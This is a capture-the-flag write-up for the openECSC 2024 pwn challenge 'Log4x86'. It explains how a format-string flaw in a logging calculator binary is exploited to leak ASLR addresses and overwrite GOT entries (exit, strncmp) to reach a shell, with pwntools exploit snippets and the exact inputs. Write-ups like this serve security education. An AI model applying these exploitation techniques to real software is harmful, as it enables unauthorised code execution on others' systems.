# openECSC 2024 - Round 3

## [pwn] Log4x86 (23 solves)

Logging data from your application is very important. This is why we are logging ABSOLUTELY EVERYTHING in this small calculator app.

`nc log4x86.challs.open.ecsc2024.it 38019`

Author: Fabio Zoratti <@orsobruno96>

## Solution

The challenge file is a single C binary compiled with almost all protections.

```text
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We almost immediatly see that the binary is bloated with an inlined pattern that looks like

```text
   0x0000000000001dac <+1009>:  mov    eax,DWORD PTR [rip+0x22da]        # 0x408c <GLOBAL_LOG_LEVEL>
   0x0000000000001db2 <+1015>:  test   eax,eax
   0x0000000000001db4 <+1017>:  jne    0x1e32 <main+1143>
   0x0000000000001db6 <+1019>:  mov    eax,DWORD PTR [rip+0x2324]        # 0x40e0 <OLD_LOG>
   0x0000000000001dbc <+1025>:  cmp    eax,0xc5
   0x0000000000001dc1 <+1030>:  je     0x1e17 <main+1116>
   0x0000000000001dc3 <+1032>:  mov    edi,0x0
   0x0000000000001dc8 <+1037>:  call   0x1302 <llts>
   0x0000000000001dcd <+1042>:  mov    QWORD PTR [rbp-0xd8],rax
   0x0000000000001dd4 <+1049>:  mov    rax,QWORD PTR [rip+0x2325]        # 0x4100 <LOG_FORMAT>
   0x0000000000001ddb <+1056>:  mov    rdx,QWORD PTR [rbp-0xd8]
   0x0000000000001de2 <+1063>:  lea    r9,[rip+0x48c]        # 0x2275
   0x0000000000001de9 <+1070>:  mov    r8d,0xc5
   0x0000000000001def <+1076>:  lea    rcx,[rip+0x2d3]        # 0x20c9
   0x0000000000001df6 <+1083>:  mov    rsi,rax
   0x0000000000001df9 <+1086>:  lea    rax,[rip+0x2320]        # 0x4120 <log_msg_base>
   0x0000000000001e00 <+1093>:  mov    rdi,rax
   0x0000000000001e03 <+1096>:  mov    eax,0x0
   0x0000000000001e08 <+1101>:  call   0x1110 <sprintf@plt>
   0x0000000000001e0d <+1106>:  mov    DWORD PTR [rip+0x22c9],0xc5        # 0x40e0 <OLD_LOG>
   0x0000000000001e17 <+1116>:  lea    rax,[rbp-0x50]
   0x0000000000001e1b <+1120>:  mov    rsi,rax
   0x0000000000001e1e <+1123>:  lea    rax,[rip+0x22fb]        # 0x4120 <log_msg_base>
   0x0000000000001e25 <+1130>:  mov    rdi,rax
   0x0000000000001e28 <+1133>:  mov    eax,0x0
   0x0000000000001e2d <+1138>:  call   0x1070 <printf@plt>
```

that can be seen as an expansion of a macro that looks like

```c
  if (LEVEL >= GLOBAL_LOG_LEVEL) {                                      \
    if (__LINE__ != OLD_LOG) {                                          \
      char* lk = llts(LEVEL);                                           \
      sprintf(log_msg_base, LOG_FORMAT, lk, __FILE__, __LINE__, fmt);   \
      OLD_LOG = __LINE__;                                               \
    }                                                                   \
    printf(log_msg_base VA_ARGS(__VA_ARGS__));                         \
  }
```

that produces a lot of logging to stdout like

```text
> randomcommand
[DBG-logloglog.c:197] Invalid command tried: randomcommand
```

Reversing the main function of the binary we see that there are some commands available for this program:

- `calculator`, that should be the main functionality of this program
- `change_log_format`, that is immediatly suspicious
- `reset_log_format`
- `change_log_level`, to change the log threshold level
- `save_and_exit`

The function `change_log_format` is immediatly suspicious because we know that `printf(user_input)` leads very easily to RCE, and for this reason we immediatly try to understand if we can obtain something useful from it.

`printf` is actually called on the buffer that the user provides, but in the function `validate_log_format`, some checks are performed:

- you cannot use `$` or `*` modifiers
- you cannot use a lot of other size modifiers
- the string is 10 bytes long, including the null byte terminator

These restrictions are pretty difficult to overcome. Even using only the shortest printf pattern, that is 2 chars long (e.g. `%p`), we could only access 4 arguments, namely 4 registers. These can be used to leak some informations that can be inside the registers, but seems very difficult to be used for an arbitrary write primitive.

However, looking back at the code snippet for the validation, we see that at least one possibility is missing. A pattern like `%.10f` is valid, and can be abused in order to write as many characters as wanted. This can be abused because, looking at the memory arrangement, the variable `log_msg_base` is exactly before `command`. This means that if we overflow the size of `log_msg_base`, the null byte will be written inside `command`, and this means that we will be able to perform `printf(command)`, that has no validation whatsoever.

Moreover, there is also another important bug in the `change_log_format` function: the `validate_log_format` is called not immediatly after the change in the buffer, there is a `LOG_DEBUG` macro in between. This means that if we can use a single `printf` vulnerability to perform a really important write, we could also avoid using the overflow vulnerability.

## Method 1: exploiting the second printf

Now we can actually do a lot of stuff. First of all, we can leak a lot of stuff on the stack to gain useful informations like

- exe base
- libc base
- canary
- stack addresses

And this can be done simply with the following commands:

```text
> change_log_format
%.260f
> change_log_level info
> change_log_level info %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```

We change the log format to something that overflows 256 bytes. In this case, we are writing 0 followed by . and followed by 260 zeros. In this way, the terminating null byte is written inside the `command` variable.
At the next iteration inside the `main` function, if we are careful and make the program log always from the same codepath, this string is not written again and the `printf` actually is called on our input.
The last line of the input is used in order to leak some addresses, that are in the registers and on the stack. Using a high enough amount of `%p` we can read an entire stack frame, reading `exe_base`, `libc_base`, `canary`, `stack_addr`.

```py
    send_command(io, b"change_log_format")
    io.sendline(b"%.260f")
    send_command(io, b"change_log_level info")
    send_command(io, b"change_log_level info" + b" %p"*50)
    addresses = [
        int(val, 16) if val != "(nil)" else 0 for val in io.recvuntil(b"> ").decode().split()[2:-1]
    ]
    for i, addr in enumerate(addresses):
        log.info(f"Leaked {i:03d}: {addr:#018x}")
    io.unread(b"> ")

    exe.address = addresses[0] - 0x201c
    log.success(f"Leaked {exe.address = :#018x}")
    libc.address = addresses[36] - libc.libc_start_main_return
    log.success(f"Leaked {libc.address = :#018x}")
```

Now that we derandomized ASLR, we need to write somewhere to hijack the execution flow. In order to obtain a WriteWhatWhere primitive, we still need a way to put an address on the stack, and this can be done easily. In the `main` function, there are two `int32_t` variables that are on the stack and are one beside the other, aligned to 8 bytes. This means that, giving the correct prompt, for example

```py
        low = where >> 32
        hi = where & ((1 << 32) - 1)
        partial = f"change_log_level info {hi:d} {low:d} ".encode()
```

we can write on the stack an address to where we want. This can be later referenced using the usual pattern `%hhn` or `%8$hhn` (here 8 is an example, it may not correspond to the real value for the compiled binary). The difference between the two is only the fact that you need to put the right amount of useless prints before `%hhn` if you choose the first one.

To sum up, an `write_what_where` primitive can be written as

```py

def write_what_where(io, what, where):
    log.info(f"Writing {what:#x} to {where:#x}")
    low = where >> 32
    hi = where & ((1 << 32) - 1)
    partial = f"change_log_level info {hi:d} {low:d} ".encode()
    MISSING = 7
    towrite = (what + 256 - len(partial) - MISSING) % 256
    partial += b"%c"*MISSING + cyclic(towrite) + b"%hhn"
    send_command(io, partial)

```

and this writes one byte at a time. Now we can proceed in different ways in order to exec `/bin/sh`. The most straightforward one is to prepare a rop chain at the end of the main function, but this requires a lot of writes. If we remember that this binary is built with partial RELRO, we can overwrite a suitable entry in the GOT with `system`.

For example, `strncmp` is called exactly on user input, and it is called only if all the other checks fail, so we can safely spam `change_log_level` until the GOT entry is overwritten and then give as input `/bin/sh`.

## Method2: using a single write

The `validate_log_format` function aborts if the log format is invalid, and it does so calling the `exit` function, that is in the GOT but obviously the GOT entry still points to the PLT. This means that, if we overwrite only some bytes of this entry, we can overwrite the call to `exit`, calling a function of the binary itself, maybe the `main`, obtaining an arbitrary amount of writes, even if the validation fails. Moreover, having overwritten the `exit` function, we can now set the log format to whatever we want. The validation will fail, but we will only go back to the main function, instead of exiting.

Firstly, we start leaking some addresses, like we did in the first method

```py
change_log_level(b"debug")
change_log_format(b"%p")
r.recvuntil(b">")
r.sendline(b"a")
exe.address = int(r.recvuntil(b">").split(b">")[0].strip(), 16) - 8216
```

and now we can overwrite the GOT entry for `exit` with `exe.sym['main']`

```py
payload = f"%{binary.symbols['main'] & 0xffff}x%12$hn"
r.sendline(b"A"*32+p64(binary.symbols["command"]+64)+b"........................"+payload.encode())

r.recvuntil(b"> ")

log.info(f"exit@got: {hex(binary.got['exit'])}")
r.sendline(b"change_log_format AAAA "+str(binary.got["exit"] & 0xffffffff).encode()+b" " + str(binary.got["exit"] >> 32).encode())

r.sendline(b"%33$s")

r.recvuntil(b"> ")
# Back to main
```

and now we only need to leak some libc addresses and overwrite another GOT entry with `system`, and this can be done as in the first method.
To sum up, this second method requires to be a bit more careful because you have only one shot to overwrite the `exit` entry, but allows to use one less vulnerability.
